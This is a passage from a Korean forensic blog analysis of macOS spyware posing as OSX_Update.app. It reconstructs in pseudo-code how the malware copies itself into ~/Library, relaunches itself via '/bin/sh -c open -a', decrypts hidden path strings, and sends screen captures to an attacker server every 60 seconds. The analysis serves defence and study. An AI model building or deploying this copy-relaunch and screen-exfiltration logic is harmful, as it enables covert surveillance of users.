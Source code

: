     while(1)
    {
        while(!connected)
        {
            connected = [self eqox]; // 공격자 도메인 연결 테스트
        }
        [self bovx]; // 60초 간격으로 화면을 캡쳐하고 공격자 서버로 전송 함.
    }
}</pre>
<p>즉 이 악성코드는 60초 간격으로 화면을 캡쳐하여 공격자에게 지속적으로 전송하는 악성코드이다. 이제 각 메서드에 대해 알아보도록 하자.</p>
</div>
<p>&nbsp;</p>
<h2>3. 사용자 라이브러리 폴더(~/Library)에 자신을 복사한 후 실행 (wort method)</h2>
<p>악성코드는 최초 wort 메서드를 실행한다. 이 메서드는  현재 악성코드를 실행한 사용자의 라이브러리 디렉터리("~/Library")에 자기 자신을 복사한다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.37.18-AM.png"><img class="aligncenter size-full wp-image-730" alt="wort" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-11.37.18-AM.png" width="1142" height="574" /></a></p>
<p>위 내용을 pseudo 코드로 작성하면 다음과 같다.</p>
<pre class="lang:objc decode:true" title="wort method">NSString *Homepath = NSHomeDirectory(); // 사용자의 홈 디렉터리를 가져온다.
NSString *currentpath = [[NSBundle mainBundle] bundlePath]; // 악성코드의 경로(.app까지)를 가져온다.
NSString *Apppath = [currentpath lastPathComponent]; // 악성코드 명(OSX_Update.app)을 가져온다.
NSString *librartpath = [self cxx:@"w7za3rq88br84zqSVKrrWQ=="]; // "/Library"

NSString *destpath = [NSString stringWithFormat:@"%@%@%@", Homepath, librarypath, Apppath]; // destpath에 "~/Library/OSX_Update.app" 저장

NSFileManager dest = [NSFileManager defaultManager:destpath];
....
if ([dest fileExistAtPath]) // "~/Library"에 이미 파일이 있다면
{
    [self soz: destpath];
}
else
{
    uint return_val = [dest copyItemAtPath:currentpath toPath:destpath error: nul]; // "~/Library"에 악성코드 복사
    if (!return_val) { // 파일 복사에 실패한다면 (이미 구동 중이라면..)
       return return_val; // "~/Library"에 위치한 악성코드가 실행 중이라면 함수를 종료
    }
    else {
       [self soz: destpath];
    }
}
sleep(30);
exit(0); // 프로그램을 종료</pre>
<p>여기에서 사용되는 경로 문자열은 전부 다 암호화되어 있다. 그리고 해당 문자열을 사용할 때마다 cxx 메서드를 이용하여 복호화를 수행한다. wort 메서드는 악성코드를 "~/Library"로 복사하고, soz 메서드를 실행한다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.38.09-AM.png"><img class="aligncenter size-full wp-image-731" alt="soz method" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-11.38.09-AM.png" width="801" height="490" /></a></p>
<p>soz는 "stringWithFormat"으로 "open -a $HOME/Library/OSX_Update.app" 문자열을 만들고 sqq 메서드를 실행한다. sqq 메서드는 다음과 같다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.38.58-AM.png"><img class="aligncenter size-full wp-image-732" alt="sqq" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-11.38.58-AM.png" width="870" height="528" /></a></p>
<p>sqq 메서드는 "/bin/sh" 명령으로 soz에서 만든 "open -a ~" 문자열을 실행(launched TaskWithLaunchPath) 한다.  위 내용을 pseudo-code로 작성하면 다음과 같다.</p>
<pre class="lang:default decode:true" title="sqq method">- (void) [PopAppDelegate sqq: openmalware] // "open -a ~/Library/ ~~"를 인자로 전달
{
    NSString shellpath = [self cxx:@"fHXxeLSbD5g="]; // "/bin/sh"
    NSArray arg = [NSArray arrayWithObjects:@"-c", @openmalware];
    [NSTask launchedTaskWithLaunchPath:shellpath arguments:arg]; // "/bin/sh -c open -a $HOME/Library/OSX_Update.app" 을 실행
    uint return_val = [waitUntilExit];
    return return_val;
}</pre>
<p>즉, 악성코드는 복사한 악성코드를 실행하고 자기 자신을 종료하게 된다. 요약하면 다음과 같다.</p>